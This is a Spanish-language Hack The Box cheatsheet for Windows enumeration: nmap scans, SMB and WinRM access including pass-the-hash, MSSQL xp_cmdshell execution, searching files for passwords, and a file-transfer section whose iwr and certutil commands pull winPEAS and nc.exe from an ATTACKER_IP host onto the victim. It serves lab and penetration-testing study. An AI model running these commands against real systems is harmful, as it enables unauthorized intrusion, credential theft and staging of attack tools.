

# HTB Windows Enumeration Cheatsheet

> [!abstract] TL;DR
> En Windows, primero separá **host standalone** de **dominio**. Enumerá SMB, WinRM, RDP, web y después, si conseguís shell, mirá privilegios (`whoami /priv`), grupos, servicios, procesos y credenciales guardadas.

## Mapa mental



## Setup rápido

```bash
export IP=10.10.10.10
mkdir -p scans loot exploits
```

```bash
# TTL orientativo
ping -c 2 $IP
```

> [!tip]
> TTL cercano a `127/128` suele apuntar a Windows. Si además ves `445`, `135`, `139`, `3389` o `5985`, pensá en Windows o AD.

## Nmap

```bash
# Primer barrido
nmap -sV -sC -oN scans/initial.txt $IP

# Todos los puertos TCP
sudo nmap -p- --min-rate 5000 -oN scans/all-ports.txt $IP

# Extraer puertos abiertos
ports=$(grep -oP '\d+(?=/tcp\s+open)' scans/all-ports.txt | paste -sd, -)
echo $ports

# Scan detallado
sudo nmap -sV -sC -A -p $ports -oN scans/detail.txt $IP
```

Puertos Windows frecuentes:

```text
53    DNS
88    Kerberos
135   MSRPC
139   NetBIOS
389   LDAP
445   SMB
464   Kerberos password change
593   RPC over HTTP
636   LDAPS
1433  MSSQL
3268  Global Catalog
3269  Global Catalog SSL
3389  RDP
5985  WinRM HTTP
5986  WinRM HTTPS
```

## SMB - 445/139

```bash
smbclient -L //$IP -N
smbmap -H $IP
enum4linux-ng -A $IP
nmap --script smb-enum-shares,smb-enum-users,smb-os-discovery -p445 $IP
```

Con credenciales:

```bash
smbmap -H $IP -u 'user' -p 'pass'
smbclient -L //$IP -U 'user%pass'
crackmapexec smb $IP -u user -p pass --shares
```

Descargar un share:

```bash
smbclient //$IP/SHARE -U 'user%pass'
recurse ON
prompt OFF
mget *
```

Buscar:

- backups (`.zip`, `.bak`, `.old`, `.config`);
- scripts con passwords;
- documentos con usuarios;
- shares no default;
- permisos de escritura.

Ver [[smb-cifs-y-shares-windows]].

## WinRM - 5985/5986

```bash
crackmapexec winrm $IP -u user -p pass
evil-winrm -i $IP -u user -p pass
evil-winrm -i $IP -u user -H NTLM_HASH
```

> [!tip]
> Si SMB valida credenciales pero no hay shell, probá WinRM. En HTB es una ruta común para foothold.

## RDP - 3389

```bash
nmap -sV -p3389 --script rdp-enum-encryption $IP
xfreerdp /u:user /p:pass /v:$IP /cert:ignore
```

## MSSQL - 1433

```bash
nmap -sV -p1433 --script ms-sql-info,ms-sql-empty-password $IP
crackmapexec mssql $IP -u user -p pass
impacket-mssqlclient user:pass@$IP -windows-auth
```

Dentro de MSSQL:

```sql
SELECT SYSTEM_USER;
SELECT IS_SRVROLEMEMBER('sysadmin');
EXEC xp_cmdshell 'whoami';
```

## Web en Windows

```bash
whatweb http://$IP
curl -i http://$IP
feroxbuster -u http://$IP -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x aspx,asp,txt,config,bak,zip
```

Extensiones útiles:

```text
aspx, asp, config, txt, bak, zip, 7z, ps1, cmd, bat
```

## Foothold: comandos básicos

```cmd
whoami
whoami /priv
whoami /groups
hostname
systeminfo
ipconfig /all
net user
net localgroup
net localgroup administrators
netstat -abno
```

PowerShell:

```powershell
$env:USERNAME
$env:USERDOMAIN
Get-ComputerInfo
Get-LocalUser
Get-LocalGroup
Get-LocalGroupMember Administrators
Get-NetTCPConnection -State Listen
```

## Archivos interesantes

```cmd
dir C:\Users
dir C:\Users\*\Desktop
dir C:\Users\*\Documents
dir C:\ /a
```

```powershell
Get-ChildItem C:\Users -Force
Get-ChildItem C:\Users\*\Desktop,C:\Users\*\Documents -Force -ErrorAction SilentlyContinue
Select-String -Path C:\Users\*\* -Pattern "password","passwd","pwd","secret","token" -ErrorAction SilentlyContinue
```

Rutas típicas:

```text
C:\Users\<user>\Desktop
C:\Users\<user>\Documents
C:\Users\<user>\Downloads
C:\inetpub\wwwroot
C:\Program Files
C:\ProgramData
C:\Windows\Temp
```

## Transferencia de archivos

Desde atacante:

```bash
python3 -m http.server 8000
```

Desde víctima:

```powershell
iwr http://ATTACKER_IP:8000/winPEASx64.exe -OutFile C:\Windows\Temp\winpeas.exe
certutil -urlcache -f http://ATTACKER_IP:8000/nc.exe C:\Windows\Temp\nc.exe
```

## One-liners

```cmd
whoami /priv && whoami /groups && systeminfo && ipconfig /all && netstat -abno
```

```powershell
Get-ChildItem C:\Users\*\Desktop,C:\Users\*\Documents -Force -ErrorAction SilentlyContinue
```

## Siguiente paso

Cuando ya tenés shell, pasá a [[HTB/Windows/privilege-escalation|Windows Privilege Escalation]].

## Referencias

- [[HTB/Windows/privilege-escalation|Windows Privilege Escalation]]
- [[Windows built-in tools]]
- [[Windows tools adicionales]]
- [[smb-cifs-y-shares-windows]]
- LOLBAS
- PayloadsAllTheThings
